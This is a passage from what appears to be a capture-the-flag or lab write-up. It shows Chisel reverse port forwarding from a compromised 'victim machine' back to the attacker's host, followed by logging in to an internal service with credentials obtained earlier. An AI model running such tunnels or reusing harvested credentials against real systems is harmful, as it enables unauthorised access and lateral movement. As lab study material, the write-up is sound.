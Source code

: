 ![](/assets/images/Pasted%20image%2020250203054142.png)

Let's do port forward. I used Chisel here.

On our machine:

```sh
./chisel server -p 5678 --reverse
```

On victim machine:

```sh
./chisel client 10.10.14.17:5678 R:3000:127.0.0.1:3000
```

![](/assets/images/Pasted%20image%2020250203054834.png)
It's Connected!

Let's login using `axel` credentials which we got and successfully it worked.

![](/assets/images/Pasted%20image%2020250203054929.png)

